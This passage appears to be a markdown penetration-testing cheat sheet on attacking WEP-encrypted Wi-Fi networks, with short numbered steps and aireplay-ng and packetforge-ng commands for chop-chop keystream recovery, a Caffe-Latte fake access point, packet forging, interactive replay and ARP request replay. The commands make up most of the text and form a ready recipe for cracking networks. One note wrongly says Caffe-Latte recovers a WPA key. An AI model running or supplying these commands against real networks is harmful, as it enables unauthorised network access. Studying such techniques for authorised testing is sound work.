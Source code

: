 #### 6.1. Chop-Chop attack

1) set interface in monitor more
2) scan for APs using WEP encryption
3) attack
```
# aireplay-ng wlan0 --chopchop -h <SRC_STATION> -b <BSSID>
```
Idea: decrypt single packet and obtain keystream in WEP networks


#### 6.2. Caffe-Latte attack (fake AP)

1) set interface in monitor more
2) scan for APs using WEP encryption
3) attack
```
# aireplay-ng --caffe-latte <SRC_STATION> -b <BSSID>
```
Notes:
- allows recovery of WPA key even if not within AP's range
- impersonate an AP and reply to connection requests from any client


#### 6.3. Generate packets w/o knowing the network key

1) enable monitoring mode
2) sniff for APs using WEP encryption
3) attack
```
# aireplay-ng wlan0 -5 -h <SRC_STATION> -b <BSSID>
# packetforge-ng -0 -a <BSSID> -h <SRC_STATION> -k <SRC_IP> -l <DST_IP> -y fragment.xor -w arp_req
```
Note: `packetforge-ng` (tool to create packets w/o knowing WEP key)


#### 6.4. Interactive packet replay

1) set interface in monitor more
2) scan for APs using WEP encryption
3) attack
```
# aireplay-ng wlan0 --interactive -t 1 -b <BSSID> -h <SRC_STATION> -c FF:FF:FF:FF:FF:FF -p 0841
```
Notes:
- replay one packet any number of times => generate traffic and new IVs
- 0841 = set `Frame Control Field / FCTRL`
- remember to increase the no. of transmitted packets manually


#### 6.5. ARP request replay
```
# aireplay-ng wlan0 --arpreplay -b <BSSID> -h <SRC_STATION>
```
